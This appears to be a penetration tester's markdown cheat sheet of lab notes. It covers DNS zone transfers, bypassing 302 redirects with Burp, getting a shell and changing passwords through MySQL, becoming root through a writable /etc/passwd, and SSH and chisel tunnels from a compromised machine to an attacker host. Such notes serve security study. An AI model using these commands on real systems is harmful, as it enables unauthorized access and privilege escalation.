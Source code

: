 ### Notes to look after:
- [DNS Stuffs](#dns)
- [302 Stuffs](#302)
- [Burp Stuffs](#burp)
- [Mysql Stuffs](#mysql)
- [Passwd Stuffs](#passwd)
- [Port Forwarding](#pd)


#### DNS Things:<a name='dns'></a>
- When DNS port is open on TCP, high chances of `zone transfer`<br />
`dig axfr domain.com @domain.com`


#### 302 Things:<a name='302'></a>
- When the status code is `302` which is redirect and has a size more than `1kb` then its fishy
- When `302` is found in the response heade, browser looks for the `location` header in the response and redirects there
- When the response form the server is intercepted and 302 is changed to `200 OK`
- The altered response processes and shows a new result than before


#### Burp Things:<a name='burp'></a>
- Automatically find and replace the response code with burp:
   - options -> Match and Replace -> Response Header -> Match: 30[12] FOUND; Replace: 200 OK -> â˜‘ï¸ Regex match -> ok 
   - This replaces 301 FOUND / 302 FOUND with 200 OK in the response header


#### MySQL Things:<a name='mysql'></a>
- When the creds for mysql is obtained, try to login 
  - `mysql -u <user> -p`
- After logging into mysql `\! /bin/sh` pops a shell (nice to give it a try)
- Enumerate the available tables: 
`select * from tables;`
- Enumerate values from  the table: 
`select * from tableName`
- Alter users password: 
 `update users set password = 'MySql_hash' where name='userName';`
 

#### Passwd Things:<a name='passwd'></a>
- When `write` permission for the passwd file is found
- Genereate a `crypt` passwd, which is standard unix algorithm
- In the passwd file, `root:x:0:0:root:/root:/bin/bash` replace the `x` with the openssl generated hash
- And su as root

#### Port Forwarding:<a name="pf"></a>
- Transferring a service running on a specific port on the compromized machine to attacker's machine
- Via SSH
```bash
# syntax: ssh -R remote_port:localhost:local_port ssh_server_hostname
ssh -R 80:localhost:8888 10.10.10.10

# syntax: ssh -N LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
ssh -NL 8080:127.0.0.1:8080 10.10.10.10

```
- Via Chisel
```bash
# on the attacker machine
chisel server -p 9999 --reverse

# on the victim machine
chisel client 10.10.10.10:9999 R:443:127.0.0.1:443
```

